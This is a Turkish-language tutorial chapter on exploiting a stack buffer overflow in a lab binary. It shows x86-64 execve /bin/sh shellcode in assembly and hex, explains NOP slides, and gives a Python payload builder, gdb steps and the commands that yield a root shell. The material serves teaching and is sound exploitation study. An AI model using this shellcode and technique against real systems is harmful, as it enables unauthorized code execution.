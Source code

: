 # Hedefimiz
Bu bölüm için hedefimiz programın akışını değiştirerek bir shell
çalıştırmak.

# Kod analizi
Kodda bulunan zafiyet 0x0 bölümü ile aynı. Kodun tek farkı `cant_get_here`
fonksiyonunu içermemesi. Ki hedefimiz artık bu fonksiyona erişmemizi gerektirmediğinden 
bu bizim için bir şey değiştirmiyor.

# Exploit
Önceki 0x0 bölümünden farklı olarak burda amacımız kod akışını
tamamı ile değiştirerek bir shell çalıştırmak. Fakat bunu nasıl yapabiliriz?

Diğer örnekte kod bizim için hazırdı ve tek yapmamız gereken dönüş
adresini bu koda işaret edicek şekilde değiştirmekti. Fakat bu sefer elimizde
hazır bir kod yok, dönüş adresini değiştirebilsek de bir shell çalıştıracak
bir noktaya erişmemiz mümkün değil.

Ya da öyle mi? Programa kendi kodumuzu ekleyemiyeceğimizi kim söyledi ki!

### Tanıştırıyım; shellcode!
Shellcode, bir zafiyetin exploitinde kullanılan küçük bir parça koda verilen
isim. Genelde bu kod bir shell başaltığından (bash, sh vs.) bu isime sahiptir.
Peki bu bizim ne işimize yarıyacak?

Bildiğiniz gibi stack üzerine yazma yapabiliyoruz, ve de dönüş adresini değiştirebiliyoruz.
Bu durumda stack üzerine bir shellcode yerleştirip dönüş adresini bu shellcode'a 
işaret etcek şekilde değiştirerek istediğimiz shellcode'u çalıştırabiliriz.

Bu örnekte kullanacağımız shellcode [exploit.db'den bir /bin/sh shellcode'u](https://www.exploit-db.com/exploits/46907).
Bu shellcode'un kaynak kodu aşağıdaki şekilde:
```asm
global _start
section .text
_start:
	xor rsi,rsi
	push rsi
	mov rdi,0x68732f2f6e69622f
	push rdi
	push rsp
	pop rdi
	push 59
	pop rax
	cdq
	syscall
```
Bu shellcode'u açıklamak için çok ileri gitmeyeceğim. Tek bilmeniz gereken `0x68732f2f6e69622f` değerinin endianness'dan kaynaklı
ters çevirilmiş `/bin//sh` olduğu (fazladan slash değeri 8 byte'a tamamlamak için). Ve [59 değeri de `execve` sistem çağrısının 
kodu.](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

Shellcode'u kendiniz derlemek için `shellcode.s` olarak kaydedin:
```
nasm -f elf64 shellcode.s -o shellcode.o
ld shellcode.o -o shellcode
```
Bu kodun hex haline ihtiyacımız var, ELF dosyasının parçası olan diğer bölümler ile ilgilenmiyoruz. Buna erişmek için:
```
objdump -d shellcode
```
Son olarak python kodunda kullanmak için shellcode'unuzu formatlayabilirsiniz:
```
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

### NOP slide
Şimdi kritik bir soru, shellcode'unu nereye yerleştireceğiz? Hemen dönüş adresinden sonraki yere yerleştirip,
dönüş adresini buraya işaret edicek şekilde değiştrebiliriz. Fakat burda şöyle bir sorun ortaya çıkıyor: stack 
adresi aynı olmak zorunda değil.

Birçok değişkene bağlı olarak stack adresi küçük farklar ile kayabilir. Bunu önlemek adına shellcode'umuzdan önce 
bir sürü `nop` komutunun (opcode `\x90`) bulunduğu NOP slide isimli bir bölüm yerleştireceğiz. `nop` komutu "No operation" anlamına gelir,
yani bu komut herhangi birşey yapmadan sıradaki komuta geçiyor. 

Daha sonra dönüş adresini NOP slide içinde bir adrese gelicek şekilde ayarlayacağız. Bu sayede ne olursa olsun en sonunda
shellcode'una erişebileceğiz.

Bunu daha iyi anlamak adına NOP slide olmadan exploitimizi stack üzerinde canlandıralım:
```
=> 19: [dönüş adresi] 
   20: [shellcode]
   21: [rastgele stack verisi]
   22: [rastgele stack verisi]
   ...
```
Bu örnekte dönüş adresimiz 20'ye işaret ediyor diyelim, shellcode başarılı ile çalışacaktır:
```
-> 19: [dönüş adresi] 
=> 20: [shellcode]
   21: [rastgele stack verisi]
   22: [rastgele stack verisi]
   ...
```
Ancak stack adresinin küçük farklar ile değişmesi mümkün:
```
=> 17: [dönüş adresi] 
   18: [shellcode]
   19: [rastgele stack verisi]
   20: [rastgele stack verisi]
   ...
```
Bu durumda exploitimiz aynı olduğundan yine 20'ye döneceğiz ama stack adresi değiştiğinden bu sefer 
shellcode'umuz çalışmayacaktır ve segfault ile programımız sonlanacaktır:
```
-> 17: [dönüş adresi] 
   18: [shellcode]
   19: [rastgele stack verisi]
=> 20: [rastgele stack verisi]
   ...
```
NOP slide'in amacı da tam olarak bunu önlemek:
```
=> 19: [dönüş adresi] 
   20: [nop]
   21: [nop]
   22: [nop]
   23: [nop]
   24: [shellcode]
   25: [rastgele stack verisi]
   26: [rastgele stack verisi]
   ...
```
NOP'a dönüş yaptıktan sonra kodumuz 24 adresinde olan shellcode'a kadar çalışacaktır.
```
-> 19: [dönüş adresi] 
-> 20: [nop]
-> 21: [nop]
-> 22: [nop]
-> 23: [nop]
=> 24: [shellcode]
   25: [rastgele stack verisi]
   26: [rastgele stack verisi]
   ...
```
NOP slide olduğu durumunda az önceki küçük adres farkları sorun olmayacaktır:
```
-> 17: [dönüş adresi] 
   18: [nop]
   19: [nop]
-> 20: [nop]
-> 21: [nop]
=> 22: [shellcode]
   23: [rastgele stack verisi]
   24: [rastgele stack verisi]
   ...
```

### Exploit vakti >:)
Tüm bu yeni şeyleri önceki exploitimiz ile birleştirebiliriz:
```python
from struct import pack

filler  = b"A"*40
ret     = pack("<Q", 0x<stackden adres>)
nop     = b"\x90"*100
shell   = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05\x90"

f = open("/tmp/ex", "wb")
f.write(filler+ret+nop+shell)
f.close()
```
Tabiki exploitimizi tamamlamak için stack'den uygun bir adres lazım, bunun için programı
gdb ile açıp gets çağrısından sonra bir break point yerleştirip stack'de dönüş adresinden 
sonra gelen nop slide civarında bir adres seçebiliriz:
```bash
python3 -c 'print("A"*40)' > /tmp/ex
gdb ./0x1 
set disassembly-flavor intel
disassemble main
break *0x000000000040116e # sizde adres farlı olabilir
run < /tmp/ex
x/24g $rsp
```
Bu örnekte ben dönüş adresinden biraz sonra gelen bir adres olan `0x7fffffffeaa0` adresini seçtim,
sizin için bu adres farklı olabilir.

Bu adres ile exploiti çalıştıralım hadi:
```bash
python3 exploit.py
cat /tmp/ex | ./0x1
```
Eğer doğru takip etiyseniz programınız çökmemesi lazım, ama aynı zamanda bir shell almıyacaksınız. Nasıl yani 
exploitimiz başarısız mı oldu? Başarısız olsaydı program segfault hatası alırdı, yani hayır exploitimiz başarılı.
Sadece exploiti kullanırken küçük bir hata yaptık.

Bash'de `|` karakteri içeriği sağladıktan sonra stdin yanı standart girdi kanalını kapatıyor. Bundan kaynaklı olarak 
shellimiz çalışsada biz daha bir komut gönderemeden bash shelli sonlandırıyor. Bunu engellemek adına sadece stdin'i 
açık tutmamız lazım:
```
(cat /tmp/ex; echo; cat) | ./0x1
```
Burda önce exploitimizi gönderiyoruz. Ardından gets çağrısının sonlanması adına bir yeni satır gönderiyoruz. Son olarak da 
cat komutunu bir parametre olmadan kullanarak shell'in stdin'i ile iletişim sağlıyoruz. Artık shell üzerinden komut gönderebiliriz!

Başarılı exploit ile aşağıdaki gibi bir çıktı almanız lazım:
```
root@o101:~/0x1# (cat /tmp/ex; echo; cat) | ./0x1
Hello, what's your name?
Nice to meet you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
id
uid=0(root) gid=0(root) groups=0(root)
```

---
[Önceki](0x0.md) | [Sonraki](0x2.md)
